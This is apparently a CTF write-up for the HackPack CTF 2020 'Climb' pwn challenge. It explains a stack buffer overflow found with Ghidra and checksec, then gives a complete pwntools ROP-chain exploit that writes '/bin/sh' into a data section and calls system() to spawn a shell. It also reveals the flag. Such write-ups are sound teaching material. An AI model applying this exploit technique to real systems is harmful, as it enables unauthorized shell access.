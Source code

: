 <h1>Climb</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
"Can you help me climb the rope?"

<h3>Solution:</h3>
Based on the problem, the first thing we are looking for is a buffer overflow vulnerability that can allow us to ROP.

After looking at the binary through Ghidra, we notice that main reads 500 bytes into a 32 byte variable.

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/main.PNG)

We can take a look with checksec and we get:

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/checksec.PNG)

So we have no canary to worry about, and no PIE so we can hard code function addresses, and system() is already resolved for us in the binary, so there is no need to ret to libc.

First, since system() requires a pointer loaded on the RDI we need to write to a memory address that we can call later.  Using vmmap with pwndbg we can see that the range 0x601000 to 0x602000 is set for both read and write.

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/vmmap.PNG)

Looking in Ghidra the higher areas of that should not be used so I chose (0x601fb0).

Next we need to be able to write to that area.  We can use ROPgadget > dump.txt to browse through all the available gadgets and build a ROP chain, here is a good one:

0x000000000040065d : mov qword ptr \[rdx\], rax ; ret

will allow us to write from the rax to the location on the rdx.

The only thing left is to build the payload.  Below is the exploit code I used:

```Python3
from pwn import *

target = './climb'

context.update(terminal = ['tmux','splitw'])

#==========================================================
#           CODE
#==========================================================

p = process(target)

#p = remote('cha.hackpack.club',41702)

sh = b'/bin/sh\0'
sh = int.from_bytes(sh, byteorder='little')

#gdb.attach(p)

pl = p64(0x4141414141414141) * 5    # padding to ret addr
pl += p64(0x40064b)                 # pop rax
pl += p64(sh)                       # /bin/sh into rax
pl += p64(0x400654)                 # pop rdx
pl += p64(0x601fb0)                 # address on data
pl += p64(0x40065d)                 # writes rax to address on rdx
pl += p64(0x400743)                 # pop rdi
pl += p64(0x601fb0)                 # address in data
pl += p64(0x400530)                 # call system()

print(p.recvuntil('respond?'))
p.send(pl)
p.interactive()
```

flag{w0w_A_R34L_LiF3_R0pp3r!}

